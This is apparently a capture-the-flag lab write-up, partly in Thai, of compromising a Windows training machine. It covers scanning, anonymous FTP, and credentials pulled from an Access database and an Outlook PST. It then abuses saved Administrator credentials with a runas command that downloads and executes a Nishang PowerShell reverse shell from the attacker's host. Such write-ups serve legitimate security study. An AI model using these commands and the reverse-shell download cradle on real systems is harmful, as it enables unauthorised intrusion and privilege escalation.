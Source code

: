 # Recon 

```bash
sudo ../Tools/scan.sh 10.10.10.98 
[*] Running rustscan...
[*] Running nmap on ports: 21,23,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-09 09:44 +07
Nmap scan report for 10.10.10.98
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: -21m42s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds

```

## TCP 80 

![](./IMG/001.png)

### Directory Bruteforce 
```bash
feroxbuster -u http://10.10.10.98 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt 
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.98
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       95w     1245c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        2l       10w      156c http://10.10.10.98/aspnet_client => http://10.10.10.98/aspnet_client/
200      GET      274l     1766w   162337c http://10.10.10.98/out.jpg
200      GET       14l       31w      391c http://10.10.10.98/
301      GET        2l       10w      167c http://10.10.10.98/aspnet_client/system_web => http://10.10.10.98/aspnet_client/system_web/
400      GET        6l       26w      324c http://10.10.10.98/error%1F_log
400      GET        6l       26w      324c http://10.10.10.98/aspnet_client/error%1F_log
400      GET        6l       26w      324c http://10.10.10.98/aspnet_client/system_web/error%1F_log
[####################] - 41s    79759/79759   0s      found:7       errors:0      
[####################] - 29s    26584/26584   919/s   http://10.10.10.98/ 
[####################] - 29s    26584/26584   928/s   http://10.10.10.98/aspnet_client/ 
[####################] - 25s    26584/26584   1062/s  http://10.10.10.98/aspnet_client/system_web/                   
```

## TCP 21 

```bash
ftp 10.10.10.98
Connected to 10.10.10.98.
220 Microsoft FTP Service
Name (10.10.10.98:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls 
425 Cannot open data connection.
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM       <DIR>          Backups
08-24-18  10:00PM       <DIR>          Engineer
226 Transfer complete.
ftp> cd ./Backups
250 CWD command successful.

ftp> bin
200 Type set to I.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |***************************************************************************************************************|  5520 KiB    2.47 MiB/s    00:00 ETA
226 Transfer complete.
5652480 bytes received in 00:02 (2.47 MiB/s)

```

# Backup.mdb 

```bash
file backup.mdb 
backup.mdb: Microsoft Access Database

sudo apt install mdbtools -y 

mdb-tables ./backup.mdb
acc_antiback acc_door acc_firstopen acc_firstopen_emp acc_holidays acc_interlock acc_levelset acc_levelset_door_group acc_linkageio acc_map acc_mapdoorpos acc_morecardempgroup acc_morecardgroup acc_timeseg acc_wiegandfmt ACGroup acholiday ACTimeZones action_log AlarmLog areaadmin att_attreport att_waitforprocessdata attcalclog attexception AuditedExc auth_group_permissions auth_message auth_permission auth_user auth_user_groups auth_user_user_permissions base_additiondata base_appoption base_basecode base_datatranslation base_operatortemplate base_personaloption base_strresource base_strtranslation base_systemoption CHECKEXACT CHECKINOUT dbbackuplog DEPARTMENTS deptadmin DeptUsedSchs devcmds devcmds_bak django_content_type django_session EmOpLog empitemdefine EXCNOTES FaceTemp iclock_dstime iclock_oplog iclock_testdata iclock_testdata_admin_area iclock_testdata_admin_dept LeaveClass LeaveClass1 Machines NUM_RUN NUM_RUN_DEIL operatecmds personnel_area personnel_cardtype personnel_empchange personnel_leavelog ReportItem SchClass SECURITYDETAILS ServerLog SHIFT TBKEY TBSMSALLOT TBSMSINFO TEMPLATE USER_OF_RUN USER_SPEDAY UserACMachines UserACPrivilege USERINFO userinfo_attarea UsersMachines UserUpdates worktable_groupmsg worktable_instantmsg worktable_msgtype worktable_usrmsg ZKAttendanceMonthStatistics acc_levelset_emp acc_morecardset ACUnlockComb AttParam auth_group AUTHDEVICE base_option dbapp_viewmodel FingerVein devlog HOLIDAYS personnel_issuecard SystemLog USER_TEMP_SCH UserUsedSClasses acc_monitor_log OfflinePermitGroups OfflinePermitUsers OfflinePermitDoors LossCard TmpPermitGroups TmpPermitUsers TmpPermitDoors ParamSet acc_reader acc_auxiliary STD_WiegandFmt CustomReport ReportField BioTemplate FaceTempEx FingerVeinEx TEMPLATEEx

mdb-export backup.mdb auth_user 
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```



# Access Control.pst

```bash
7z x Access\ Control.zip 

7-Zip 24.09 (arm64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit arm_v:8-A locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: Access Control.zip
--
Path = Access Control.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed):
Everything is Ok

Size:       271360
Compressed: 10870
                                             
```

ข้อมูลก่อนหน้าเราจะได้ข้อมูล Password มาด้วย ให้ทำการทดสอบแตกไฟล์และใช้รหัสผ่านเป็น 'access4u@security' ก็จะสามารถแตกไฟล์ได้
![](./IMG/002.png)

หากเราตรวจสอบข้อมูลของไฟล์ Access Control.pst จะพบว่าเป็นไฟล์อีเมลล์ของ outlook โดยเราสามารถใช้คำสั่ง readpst ได้ 

```bash
sudo apt install pst-utils -y


readpst Access\ Control.pst 
Opening PST file and indexes...
Processing Folder "Deleted Items"
        "Access Control" - 2 items done, 0 items skipped.

```

เมื่อเราใช้คำสั่ง read pst เมล์ต่างๆ จะอยู่ใน Format ที่สามารถอ่านได้ 
![](./IMG/003.png)

ซึ่งหลังจากที่เราอ่านจะทำให้เราเห็นข้อความที่น่าสนใจ 

```mail
Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John

```

# Shell as security 
## TCP 23 Telnet 

เราสามารถทดสอบด้วย Telnet ซึ่งจะทำให้เราสามารถเข้าถึงเป้าหมายได้ 
![](./IMG/004.png)

# Shell as admin

```powershell
cd C:\Users\Public\Desktop\
type "ZKAccess3.5 Security System.lnk"
```
![](./IMG/005.png)

จากการวิเคราะห์พบว่าไฟล์ .lnk มีการเรียกใช้คำสั่ง runas พร้อมกับ flag /savedcred ซึ่งบ่งชี้ว่าอาจมีการเก็บข้อมูล credentials (บัญชีผู้ใช้และรหัสผ่าน) ของ Administrator ไว้ในระบบแล้ว และเพื่อยืนยันข้อสันนิษฐานหรือใช้ในกระบวนการตรวจสอบก่อนพบไฟล์ .lnk ก็สามารถใช้คำสั่ง:

```powershell
cmdkey /list
```

![](./IMG/006.png)

จากเหตุการณ์ดังกล่าวทำให้เราทราบได้ว่า user administrator ได้ถูกเก็บไว้บนเครื่องเป้าหมายแล้ว 

## Privesc 

เราจะใช้ **Nishang** ซึ่งเป็นชุด PowerShell script สำหรับงาน post-exploitation โดยจะเริ่มจากการ **clone** โค้ด Nishang จาก GitHub ถ้ายังไม่มีในเครื่อง

```bash
git clone https://github.com/samratashok/nishang.git
### Using Invoke-PowerShellTcp.ps1 
cp ./nishang/Shells/Invoke-PowerShellTcp.ps1 ~/www/shell.ps1
```

![](./IMG/007.png)
เราจะเพิ่ม Config สำหรับทำ reverse shell จากไฟล์ Invoke-PowerShellTcp.ps1  โดยเราเพิ่มบรรทัดสุดท้ายตามภาพ จากนั้นฝั่ง kali linux เราก็จะทำการรอรับ Reverse shell

```bash
# Attacker 
updog -p 80   
rlwrap nc -lvmp 443


## Victim 
C:\Users\security\AppData\Local\Temp>runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')"
```

![](./IMG/008.png)

# Pwned 